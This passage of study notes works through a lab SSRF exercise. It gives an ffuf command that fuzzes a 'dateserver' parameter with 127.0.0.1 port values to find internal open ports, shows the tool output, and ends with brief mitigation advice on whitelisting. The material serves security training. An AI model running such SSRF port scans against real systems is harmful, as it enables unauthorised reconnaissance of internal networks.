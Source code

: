 While we cannot read local file like before, we can use the same tech to identify existing files on the filesystem. that is cause the error message is diff for existing and non-existing files, just like it
differs for open and close ports

Exercise:
Exploit the SSRF to identify open ports on the system. Which port is open in addition to port 80?
First we must to put in the 80 port and see what is the text and and use fuzz for search the port:
```sh
ffuf -w Dictionaries/SecLists/Discovery/Infrastructure/common-http-ports.txt  -u http://10.129.63.211/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Something"


        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.129.63.211/index.php
 :: Wordlist         : FUZZ: /home/Anchovy/Dictionaries/SecLists/Discovery/Infrastructure/common-http-ports.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Something
________________________________________________

5000                    [Status: 200, Size: 52, Words: 8, Lines: 1, Duration: 127ms]
80                      [Status: 200, Size: 52, Words: 8, Lines: 1, Duration: 199ms]
```
And try with see and is the same message:
Date is unavailable. Please choose a different date! other port open

# Preventing the SSFR:
Mitigations and contermeasures against SSRF vulnerabilities can be implemented at the web app or network layers, if the web app fetches data form a remote host based on use input, proper
security measure to prevent scenarios are crucial.
The remote data us fetched form should be cheked against a whitlelist to prevent attacks to coecering the server to make requests against arbitrary origins. A whitelist prevents an attackers form making
unintended requests to internal syste,

